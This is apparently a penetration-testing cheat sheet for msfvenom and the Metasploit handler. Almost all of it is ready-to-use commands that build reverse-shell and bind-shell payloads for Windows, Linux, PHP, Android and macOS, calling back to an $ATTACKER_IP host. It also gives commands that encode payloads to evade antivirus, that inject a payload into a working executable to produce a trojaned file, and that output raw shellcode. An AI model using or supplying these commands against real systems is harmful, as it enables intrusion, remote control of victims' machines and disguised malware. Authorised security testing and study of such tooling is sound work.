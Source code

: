 ## Info
- **Type:** Payload generation tool
- **Part of:** Metasploit Framework
- **Common Usage:** Generates shellcode and payloads for exploitation
- **Supports:** Multiple architectures (x86, x64, ARM), platforms (Windows, Linux, macOS, Android), and output formats (EXE, ELF, APK, DLL, etc.)

## Usage

### Listener Setup in Metasploit
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $ATTACKER_IP
set LPORT 4444
exploit
```

### Generating a Basic Reverse Shell Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

- `-p`: Payload type
- `LHOST`: Attacker's IP (listening machine)
- `LPORT`: Listening port for reverse connection
- `-f`: Format of output (e.g., exe, elf, raw, py, etc.)
- `-o`: Output file

### Common Payloads

#### Windows Payloads

```bash
# Windows Meterpreter Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe

# Windows Staged Reverse Shell
msfvenom -p windows/shell/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

#### Linux Payloads

```bash
# Linux Reverse Shell (ELF binary)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f elf -o shell.elf

# Linux Bind Shell
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf -o bindshell.elf
```

#### Web Shells (PHP, ASP, JSP)

```bash
# PHP Reverse Shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f raw > shell.php
```

#### Android Payload

```bash
# Malicious APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -o shell.apk
```

#### MacOS Payload

```bash
# MacOS Reverse Shell
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f macho -o shell.macho
```

### Encoding Payloads (Bypass AV Detection)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
```

- `-e`: Encoder (e.g., `x86/shikata_ga_nai`)
- `-i`: Iterations (multiple encoding passes)

### Injecting Payloads into Executables

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -x clean.exe -k -f exe -o infected.exe
```

- `-x`: Base executable file
- `-k`: Keep functionality of the original file

### Converting Payloads to Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f c
```

- Outputs shellcode in C format for manual injection
